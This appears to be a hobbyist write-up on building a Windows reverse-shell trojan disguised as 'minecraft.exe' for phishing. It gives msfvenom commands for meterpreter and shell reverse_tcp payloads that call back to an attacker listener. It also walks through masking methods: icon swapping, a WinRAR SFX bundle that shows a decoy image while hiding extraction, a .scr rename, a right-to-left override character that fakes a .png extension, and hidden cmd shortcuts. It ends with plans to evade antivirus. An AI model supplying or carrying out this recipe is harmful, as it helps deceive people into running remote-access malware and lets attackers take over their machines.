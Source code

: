 # Reverse shell tcp exploit masked as minecraft.exe 

I've been getting some shitty phishing emails so I thought how I could make it more believable:

<img src="phishing.png" alt="img" />

This is kinda bad.

I saw the other day a video about something like "turn any executable into png" and i thought, what if I made a windows reverse tcp binary using msfvenom and named it as minecraft.exe? 

In this writeup we will do:
- Minecraft.exe reverse shell
- Minecraft.exe/png bundled with another file reverse shell
- Hidden CMD shortcut when opening the Minecraft.png file
- Maybe make a pdf reverse shell

Let's do it

## part 1

First I'm using bridged adapter kali linux VM with windows as my host machine. I am on the same 192.168.100.x network

We have a few payload options, we can use meterpreter or just normal shell:

`msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.150.6 LPORT=4444 -f exe -o minecraft.exe`

`msfvenom -p windows/shell/reverse_tcp LHOST=192.168.150.6 LPORT=4444 -f exe -o minecraft.exe`


<img src="1.png" alt="img" />

I moved the file into my windows desktop. We can test that it works first by running the exe. If we geta shell we can change directory
`cd /d C:\` 

Just have to disable my antivirus since the binary itself is fingerprinted with metasploit

We will customize this executable to make it look legitimate following this tutorial by "ebola man"

Video: https://www.youtube.com/watch?v=cXEkSQl9wmw


<img src="2.png" alt="img" />

First we need resource hacker: https://www.angusj.com/resourcehacker/#download

<img src="2.5.png" alt="img" />

Then we get minecraft icon png and put it on our exe.

<img src="3.png" alt="img" />

Now we have a legitemately looking minecraft hack except windows defender instantly knows thats its a virus and when running it, it doesn't do anything which is sus

So let's forget the payload legitimacy first, what if we want to turn this into a legit looking PNG and just send it to a friend?

## part 2
According to the tutorial, we can bind a picture with the exe using Winrar. 

<img src="4.png" alt="img" />

Select the picture and exe and add to archive

<img src="5.png" alt="img" />

- Check "create SFX archive"

<img src="6.png" alt="img" />

- Go to advanced SFX and put these

<img src="7.png" alt="img" />

- Then modes unpack to temp folder and hide all

<img src="8.png" alt="img" />

- Then text and icon, select your icon (must be ICO format)

<img src="8.5.png" alt="img" />

- In update tab => overwrite all files

<img src="9.png" alt="img" />

Now we get the same `minecraft.exe` but now it opens up an image we bundled it with when run

Change the extension from .exe to .scr

`minecraft.scr`

It runs the same 

Now we insert a special character by right clicking while editing file name, right before ouur file extension at `file|gnp.scr`

<img src="10.png" alt="img" />

=> insert special character => RLO

<img src="11.png" alt="img" />

Now it looks like this with and runs normally

## part 3
Another method is to create a folder with a shortcut of the file. I'm imagining this as a folder of pictures

Take the exe file from part 2 and change it to `minecraft.png`

It will run in CMD when you type `minecraft.png`

Create folder, create shortcut

Make original image file hidden in properties

In the shortcut properties, add `cmd.exe /c` in the target, and change the icon to something believable

Next up I need to think:
- How to bypass windows defender
- Set up remote server listener
- Better masking and stealthing after exploitation
- Post-exploitation objectives



Source: 

ebola man
https://www.youtube.com/watch?v=cXEkSQl9wmw

https://www.youtube.com/watch?v=78QSSB2NnwQ